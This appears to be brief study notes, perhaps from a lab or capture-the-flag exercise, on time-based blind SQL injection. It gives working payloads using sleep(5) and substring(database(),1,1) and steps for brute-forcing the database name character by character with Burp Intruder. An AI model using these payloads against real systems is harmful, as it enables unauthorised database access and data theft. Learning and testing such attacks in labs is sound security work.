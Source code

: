 Check if query is accepted - aa' OR sleep(5) -- -

Use this query and intrecept the traffic using burp - iron man' AND substring(database(),1,1) = "a" AND sleep(5) -- -

## Execute a brute force on the parameter 1 after the database and the parameter a:

1. In the first payload choose the number option
2. In the second pyload use a wordlist wite all the letters
3. When the attack started navigate to columns and response received

